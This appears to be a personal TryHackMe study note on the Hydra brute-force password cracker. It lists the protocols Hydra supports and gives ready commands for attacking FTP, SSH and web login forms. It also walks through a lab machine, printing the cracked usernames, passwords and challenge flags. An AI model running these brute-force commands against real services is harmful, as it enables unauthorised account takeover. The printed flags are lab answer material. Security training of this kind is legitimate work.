# Hydra

a brute force online password cracking program

## Introduction

* used to run through a list, and *bruteforce* an authentication service

* some protocols it can bruteforce:
    - Asterisk
    - AFP
    - AAA
    - Cisco
    - Cisco Auth
    - Cisco enable
    - FTP
    - HTTP-FORM-GET
    - HTTP-FORM-POST
    - HTTP-GET
    - HTTP-HEAD
    - HTTP-POST
    - HTTP-PROXY
    - HTTPS-FORM-GET
    - HTTPS-FORM-POST
    - HTTPS-GET
    - HTTPS-HEAD
    - HTTPS-POST
    - MS-SQL
    - MYSQL
    - PC-Anywhere
    - PCNFS
    - Rlogin
    - Rsh
    - RTSP
    - SAP/R3
    - SMTP Enum
    - Teamspeak -- TS2
    - Telnet
    - VMware-Auth
    - VNC
    - XMPP
    - [more info on the official kali page](https://en.kali.tools/?p=220)


## Using Hydra


### Commands

* bruteforcing FTP with *user* and *passlist.txt*
```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

* for SSH
    - **-l** -- is for the username
    - **-P** -- use a list of passwords
    - **-t** -- specifies the number of threads to use

```bash
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```

* Post Web Form
    - **-l** -- single username
    - **-P** -- password list
    - **hhp-post-form** -- type of form
    - **/login url** -- login page URL
    - **:username** -- form field where the username is entered
    - **^USER^** -- tells hydra to use the username supplied earlier
    - **password** -- form field where the password is entered
    - **^PASS^** -- tells hydra to use the password list supplied earlier
    - **Login** -- indicates to hydra the login failed message
    - **Login failed** -- is the login failure message that the form returns
    - **F=incorrect** -- if this word appears on the page, its incorrect
    - **-V** -- verbose output for every attempt

```bash
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

### Deployed Machine Practical
Target IP: 10.10.42.58

1. molly's web password, flag 1:

* while waiting for hydra, I looked around and found: /home/ubuntu/elf/hydra-challenge

    - this is because i found the ssh credentials first

```bash
cd /home/ubuntu/elf/
ls
file hydra-challenge
vi hydra-challenge
```

```text
Username: molly
Password: joyness1994

THM{2673a7dd116de68e85c48ec0b1f2612e}
```

2. molly's ssh password, flag 2

* using hydra with rockyou passlist for ssh credentials
```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.42.58 -t 4 ssh

[22][ssh] host: 10.10.42.58   login: molly   password: butterfly
```

* ssh into remote server & looking around
```bash
ssh molly@10.10.42.58
ls
cat flag2.txt

THM{c8eeb0468febbadea859baeb33b2541b}
```

---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
